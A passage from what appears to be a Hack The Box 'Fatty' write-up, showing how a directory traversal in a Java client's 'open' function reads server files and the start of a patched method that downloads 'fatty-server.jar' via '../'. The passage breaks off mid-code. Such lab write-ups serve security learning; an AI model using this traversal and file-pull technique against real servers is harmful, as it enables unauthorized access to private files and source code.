 ![File-read with traversal successful](/assets/htb/Fatty/client-dir-traversal-read.png)

After changing our directory, we can read the `start.sh` file.

Reading the `fatty-server.jar` does not give us any output, which makes sense as the file won't be printable text. Let us change to `open` function to saving data to a file, instead of reading it. This way we can extract the source-code from the server.



### Patching file read to download server

In order to write data as a file, we need to create a new function that does the same as the `Invoker.open` function, but instead of calling `response = this.response.getContentAsString();`, we use `response = this.response.getContent();`. This gives us the response as bytes. Now we can use FileOutputStream to write the bytes to a file.

```java
public String downloadServer() throws MessageParseException, MessageBuildException, IOException {
    this.action = new ActionMessage(this.sessionID, "open");
    
    String foldername = "../";
    String filename = "fatty-server.jar";

    this.action.addArgument(foldername);
    this.action.addArgument(filename);

    sendAndRecv();
    if (this.response.hasError())
      return "Error while communicating with server";
    
    try
```